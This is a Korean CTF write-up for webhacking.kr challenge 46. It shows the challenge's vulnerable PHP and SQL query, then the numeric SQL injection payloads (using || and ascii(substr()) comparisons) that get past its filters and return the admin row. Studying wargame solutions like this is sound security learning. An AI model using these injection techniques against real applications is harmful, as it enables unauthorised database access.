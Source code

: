 ```yaml
---
title: "[webhacking.kr] 46번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "46번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 46번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152758629-e436c787-9272-4a79-ac0f-8e9733e2123b.png)


  ```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
  ```


# 문제 풀이
  45번 문제와 다르게 이번엔 addslashes를 단독으로 사용하고 있어서 ```'``` 사용이 어렵습니다.

  우선 인젝션 해야 하는 쿼리부터 보면 다음과 같습니다.

  ```sql
select id,cash from chall46 where lv={}
  ```

  조건문에 들어가는 부분이 문자열이 아니기 때문에 굳이 ```'```를 사용할 필요가 없습니다.

  이번 문제는 필터링 된문자도 거의 없고, 제약사항이 거의 없어서 방법이 너무 많은데, 제가 푼 쿼리문은 다음과 같습니다.

  ```sql
111||ascii(substr(id,1,1))=97
  ```

  맨 첫글자만 비교를 하는 쿼리문인데 첫글자 비교만 하니까 다음과 같은 데이터도 첫글자가 'a'이기 때문에 풀리지 않았습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152761263-b7dc4107-4671-4402-abe7-941d49852201.png)

  그래서 두번째 글자가지 &&를 넣어서 비교를 해주니까 풀렸습니다.

  ```sql
111||ascii(substr(id,1,1))=97&&ascii(substr(id,2,1))=100
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152761961-54c06c3f-964c-458c-91ee-dbb7ead96743.png)

  
